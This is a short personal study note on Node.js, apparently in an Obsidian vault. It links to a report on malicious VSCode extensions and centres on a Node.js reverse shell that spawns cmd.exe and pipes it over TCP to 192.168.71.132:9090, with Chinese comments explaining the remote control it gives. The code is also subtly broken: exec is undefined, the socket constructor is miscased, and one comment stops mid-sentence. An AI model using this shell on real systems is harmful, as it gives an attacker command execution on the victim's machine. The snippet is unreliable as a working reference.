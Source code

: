 ```yaml
---  
alias:  
creation_date: 2024-06-11 13:10  
tags: 
related:
- [[nodejs_idx]]

---  
```


ref: [Site Unreachable](https://www.bleepingcomputer.com/news/security/malicious-vscode-extensions-with-millions-of-installs-discovered/)


```js

let net = require("net");
let shell = exec("cmd.exe");
var tcpSocket = new net.socket();

tcpSocket.connect(9090, "192.168.71.132", () => {
  // remote 的 tcp socket pipe 到 local 的 shell 的 stdin
  tcpSocket.pipe(shell.stdin);

  // local 的 shell 的 stdout 和 stderr 都 pipe 到 remote 的 tcp socket
  shell.stdout.pipe(tcpSocket);
  shell.stderr.pipe(tcpSocket);

  // 因此，上面可以達到
});

/**
 * 這段程式碼的目的可以簡單總結為：
1. 在本地啟動一個 Windows 命令提示符（`cmd.exe`）。
2. 通過 TCP 連接將這個命令提示符與遠程伺服器進行連接。
3. 使得遠程伺服器可以向本地命令提示符發送指令並接收其執行結果。

這實際上是一種遠程控制技術，使得操作者可以在遠端伺服器上向本地主機發送命令並獲得執行回應，
類似於遠程桌面但僅限於命令行。
這在某些場合下，尤其是需要遠程系統管理和控制時，可能非常有用。
然而，這樣的代碼也可能用於不安全的活動，因此在使用和設置時必須特別小心，以防止未經授權的訪問。
 */

```